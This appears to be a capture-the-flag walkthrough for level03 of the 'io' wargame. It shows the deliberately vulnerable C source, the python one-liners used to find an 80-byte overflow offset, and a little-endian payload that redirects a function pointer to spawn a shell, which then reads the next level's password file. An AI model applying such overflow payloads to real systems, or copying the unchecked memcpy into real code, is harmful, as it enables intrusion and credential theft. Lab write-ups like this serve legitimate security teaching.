 1. Start out by looking at the source code in level03.c
```
//bla, based on work by beach
 
#include <stdio.h>
#include <string.h>
 
void good()
{
    puts("Win.");
    execl("/bin/sh", "sh", NULL);
}
void bad()
{
    printf("I'm so sorry, you're at %p and you want to be at %p\n", bad,     good);
}
 
int main(int argc, char **argv, char **envp)
{
    void (*functionpointer)(void) = bad;
    char buffer[50];

    if(argc != 2 || strlen(argv[1]) < 4)
        return 0;

    memcpy(buffer, argv[1], strlen(argv[1]));
    memset(buffer, 0, strlen(argv[1]) - 4);

    printf("This is exciting we're going to %p\n", functionpointer);
    functionpointer();

    return 0;
}
```

2. At first glance, we see two functions: good() and bad(). We see they're kind enough to tell us the address of good(), and it seems like we need redirect execution to go there. We need to supply at least one command line argument that's longer than four characters, then it gets mem copied in its entirety into a fixed size buffer of 50 bytes. We need to supply a string long enough to overwrite the return address at the end of the function. To make it easy we can use python to print out a string and figure out how many bytes we need.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*100')
This is exciting we're going to (nil)
Segmentation fault
```
Oops, that's too long. Let's try to shorten it a bit.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*80')
This is exciting we're going to 0x41414141
Segmentation fault
```
Perfect, looks like 80 bytes is enough overwrite the return address. Let's try to shorten it a bit and see exactly where we overwrite it.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*76')
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```
Looks like the magic number was 80 bytes! Let's double check to make sure we're right.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*76 + "BBBB"')
This is exciting we're going to 0x42424242
Segmentation fault
```

3. Now that we know how many bytes we need, we need to replace the Bs with the four bytes of the address for the function good() we can return into it. The address is 0x8048474. Because x86 architecture is little endian, we need to reverse the bytes in the memory address in order to actually jump to 0x8048474.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.2$ cat /home/level4/.pass
[The password for level4]
```
